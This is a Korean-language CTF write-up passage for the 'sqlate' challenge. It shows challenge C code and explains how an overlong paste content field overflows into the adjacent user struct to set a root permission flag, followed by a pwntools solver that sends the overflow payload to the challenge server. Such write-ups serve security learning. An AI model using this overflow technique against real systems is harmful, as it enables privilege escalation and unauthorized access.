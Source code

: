```c
    if (rc == SQLITE_DONE)
    {
        printf("You don't have any pastes right now.\n");
        sqlite3_finalize(stmt);
        return;
    }
    error_handle(SQLITE_ROW);

    while (rc == SQLITE_ROW)
    {
        paste.rowId = sqlite3_column_int(stmt, 0);

        const char *title = (const char *)sqlite3_column_text(stmt, 1);
        const char *language = (const char *)sqlite3_column_text(stmt, 2);
        const char *content = (const char *)sqlite3_column_text(stmt, 3);

        strncpy(paste.title, title ? title : "", sizeof(paste.title) - 1);
        paste.title[sizeof(paste.title) - 1] = '\0';

        strncpy(paste.language, language ? language : "", sizeof(paste.language) - 1);
        paste.language[sizeof(paste.language) - 1] = '\0';

        strncpy(paste.content, content ? content : "", sizeof(paste.content) - 1);
        paste.content[sizeof(paste.content) - 1] = '\0';

        print_paste(&paste);

        rc = sqlite3_step(stmt);
    }

    rc = sqlite3_finalize(stmt);
    error_handle(SQLITE_OK);
}
```

`action_list`는 `sql`에 있던 글들을 `paste`에 옮겨 `print_paste` 함수를 통해 출력합니다. 이 때 `content` 영역의 내용이 위의 `action_update` 함수에 의해 최대 384바이트가 되어 메모리 오버플로우(memory overflow)가 발생합니다. `paste`와 `current_user`가 붙어있기 때문에 `current_user`의 `flag`를 덮을 수 있습니다. 이렇게 사용자에게 `permission_root`를 부여하고 `flag`를 읽습니다.

- 솔버

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./vuln')
p = remote('sqlate.chal.irisc.tf', 10000)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b': ', b'csh')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b': ', b'\xfe' * 192 + b'\x00')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b'>', b'4')
p.sendlineafter(b'>', b'7')
p.interactive()
```

